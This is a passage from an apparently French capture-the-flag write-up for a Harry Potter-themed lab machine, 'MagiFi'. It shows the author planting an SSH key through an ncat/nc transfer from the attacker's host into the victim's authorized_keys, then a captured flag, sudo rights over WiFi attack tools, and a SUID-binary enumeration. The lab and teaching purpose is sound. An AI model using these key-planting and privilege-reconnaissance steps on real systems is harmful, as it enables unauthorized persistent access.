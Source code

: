 Maintenant, il est tant d'obtenir un shell. Malheureusement ni `curl` ni `wget` ne sont présents sur le système.

J'ai essayé d'écrire une clé SSH avec `echo` et une redirection, mais bizarrement ça ne fonctionnait pas. Finalement, j'ai mis en écoute un Ncat sur ma machine pour transférer la clé SSH.

Soit `ncat -l -p 9999 -v < key_no_pass.pub` de mon côté et `nc 192.168.242.1 9999 > /home/harry_potter/.ssh/authorized_keys` sur la victime.

J'obtiens alors le premier flag :

```console
$ env
USER=harry_potter
SSH_CLIENT=192.168.242.1 60356 22
XDG_SESSION_TYPE=tty
HOME=/home/harry_potter
MOTD_SHOWN=pam
SSH_TTY=/dev/pts/0
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1006/bus
LOGNAME=harry_potter
XDG_SESSION_CLASS=user
TERM=xterm-256color
XDG_SESSION_ID=338
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
XDG_RUNTIME_DIR=/run/user/1006
LANG=en_US.UTF-8
SHELL=/bin/sh
PWD=/home/harry_potter
SSH_CONNECTION=192.168.242.1 60356 192.168.242.132 22
XDG_DATA_DIRS=/usr/local/share:/usr/share:/var/lib/snapd/desktop
$ ls
Hogwarts_web  user.txt
$ cat user.txt  
hogwarts{ea4bc74f09fb69771165e57b1b215de9}
$ sudo -l
Matching Defaults entries for harry_potter on MagiFi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harry_potter may run the following commands on MagiFi:
    (root) NOPASSWD: /usr/sbin/aireplay-ng, /usr/sbin/airmon-ng, /usr/sbin/airodump-ng, /usr/bin/airdecap-ng, /usr/bin/hostapd-mana
```

### Expelliarmus

Au vu des commandes sudo autorisées, on aura sans doute une attaque WiFi à réaliser. Je prends tout de même le temps de fouiller un peu.

```console
harry_potter@MagiFi:~/Hogwarts_web$ find / -type f -perm -u+s -ls 2> /dev/null 
   262629     88 -rwsr-xr-x   1 root     root        88464 Feb  6  2024 /usr/bin/gpasswd
   262241     84 -rwsr-xr-x   1 root     root        85064 Feb  6  2024 /usr/bin/chfn
   262712     40 -rwsr-xr-x   1 root     root        39144 Apr  9  2024 /usr/bin/umount
   275948     44 -rwsr-xr-x   1 root     root        44784 Feb  6  2024 /usr/bin/newgrp
   345098     20 -rwsr-xr-x   1 root     root        17400 Feb 13 07:31 /usr/bin/xxd_horcrux
   276704     68 -rwsr-xr-x   1 root     root        67816 Apr  9  2024 /usr/bin/su
   262825     40 -rwsr-xr-x   1 root     root        39144 Mar  7  2020 /usr/bin/fusermount
   262644     56 -rwsr-sr-x   1 daemon   daemon      55560 Nov 12  2018 /usr/bin/at
   263044     32 -rwsr-xr-x   1 root     root        31032 Feb 21  2022 /usr/bin/pkexec
   271591    164 -rwsr-xr-x   1 root     root       166056 Apr  4  2023 /usr/bin/sudo
   262707     56 -rwsr-xr-x   1 root     root        55528 Apr  9  2024 /usr/bin/mount
   262715     68 -rwsr-xr-x   1 root     root        68208 Feb  6  2024 /usr/bin/passwd
   262242     52 -rwsr-xr-x   1 root     root        53040 Feb  6  2024 /usr/bin/chsh
```
